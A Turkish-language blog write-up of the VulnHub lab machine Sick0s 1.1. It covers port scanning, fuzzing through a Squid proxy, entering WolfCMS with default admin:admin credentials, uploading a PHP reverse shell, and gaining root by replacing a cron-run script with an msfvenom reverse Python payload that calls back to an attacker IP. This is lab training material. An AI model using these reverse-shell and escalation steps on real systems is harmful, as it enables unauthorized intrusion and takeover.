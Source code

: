 ```yaml
---
layout: post
title: "Sick0s:1.1 Writeup"
date: 2018-06-08
excerpt: "08 Jun 2018"
comments: false
---
```

Sick0s 1.1 zafiyetli makinasında bizden istenen root yetkilerine erişmek. Quaoar'da karşılaştığımız senaryo ile oldukça benzer.
Makinayı indirmek,daha ayrıntılı bilgi almak için [bu](https://www.vulnhub.com/entry/sickos-11,132/) linki kullanabilirsiniz.

Öncelikle makinaya ait ip adresini buldum.
<figure >
    <img src="/assets/img/sickos/sickosip.png">
</figure>
Ardından basit bir nmap taraması ile açık portları ve üzerinde çalışan öğrendim .
<figure >
    <img src="/assets/img/sickos/sickosnmap.png">
</figure>
Aldığım çıktı sonucunda çok mu basit oldu diye düşünmedim değil. Daha geniş bir port aralığını taramaya karar verdim.
Zaman alan bir tarama olduğu için bu esnada Squid Http Proxy nedir, ne iş yapar diye biraz bakındım. Özet olarak  böyle bir sonuca vardım.

> Squid HTTP,HTTPS,FTP gibi web servisleri için proxy cache yapan aynı zamanda internet çıkışlarını filtreliyerek yönetmeyi       sağlayan bir proxy serverdır.

Bu proxy server üzerinden bir nmap taraması başlatmadan önce, tarayıcıda proxy ayarlarını set edip 80 portuna gitmeyi denedim ve başarılı oldum. 
<figure >
    <img src="/assets/img/sickos/sickosproxy.png">
</figure>
Dikkatimizi çeken herhangi bir şey ile karşılaşmadım ve proxy üzerinden fuzzing işlemi başlattım.
#### dirb http://192.168.1.53 -p 192.168.1.53:3128
<figure >
    <img src="/assets/img/sickos/sickosdirb.png">
</figure>
http://192.168.1.53/robots.txt adresini ziyaret ettiğimde /wolfcms şeklinde bir entry ile karşılaştım.Wolfcms hakkında daha önce fikir sahibi olmadığım için başlangıçta bir servis olduğunu anlayamadım. Üzerine biraz araştırma yaptıktan sonra PHP tabanlı bir "content management system" olduğunu öğrendim. Muhtemelen zafiyetli bir versiyondur düşüncesiyle, versiyon bilgisinin sızdırıldığı bir sayfa bulmak için baya dolandım. Fakat bir sonuca ulaşamadım.

Exploit ararken http://targetsite.com/wolfcms/?/admin/plugin/file_manager/browse/ şeklinde bir path buldum. Daha önce /wolfcms dizini için fuzzing yapmıştım, fakat  ?/dizin şeklinde yapılandığı için işe yarar çok bir şey dönmemişti.
Bu sayede  login sayfasına erişim sağladım. Daha önceki hatalarımdan ders çıkarıp ilk olarak admin:admin ikilisini denedim ve başarıyla sonuçlandı :)

Tabi ki ilk işim php reverse shell içeren bir php kodu yüklemek oldu.Daha önce fuzzing işlemi sırasında /wolfcms/public/images pathini öğrenmiştim. Files>upload kısmından [buradaki](https://github.com/pentestmonkey/php-reverse-shell) kodu  images/ dizinine  yükleyip, tarayıcıdan çağırdığımda www-data kullanıcısı ile bir shell elde etmiş oldum.
<figure >
    <img src="/assets/img/sickos/sickosshell.png">
</figure>
Sistem hakkında genel bir bilgi sahibi olabilmek için [bu](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py) scripti çalıştırdım.

Post exploitation için best practice olarak kabul edilen şeylerden birini yapıp, var olan cron dosyalarını inceledim.
<figure >
    <img src="/assets/img/sickos/sickoscron.png">
</figure>
Dosyalardan birini okuduğumda, root kullanıcısı tarafından her dakika çalıştırılan bir script ile karşılaştım.
<figure >
    <img src="/assets/img/sickos/sickoscron2.png">
</figure>
Scriptin var olduğu dizine gittiğimde güzel bir sürpriz ile karşılaştım.Dosya üzerinde tüm haklara sahiptim.Demek oluyorki dosyayı istediğim gibi manipüle edebilirim.
<figure >
    <img src="/assets/img/sickos/sickospy.png">
</figure>
connect.py dosyasının içeriğini bana shell verecek olan bir python koduyla değiştirdim.Bunun için msfvenom ile bir payload oluşturdum. 
#### msfvenom -p cmd/unix/reverse_python LHOST=192.168.1.55 LPORT=7777 -f raw
connect.py dosyasının içeriğini payload ile değiştirip, ardından bir dinleme başlatıp sistemin scripti çalıştırmasını bekledim. 
<figure >
    <img src="/assets/img/sickos/sickosx.png">
</figure>
Scripti çalıştıran root kullanıcısı olduğu için dolayısıyla bende root yetkileri ile shell elde etmiş oldum.
<figure >
    <img src="/assets/img/sickos/sickosroot.png">
</figure>
<figure >
    <img src="/assets/img/sickos/sickos.gif">
</figure>
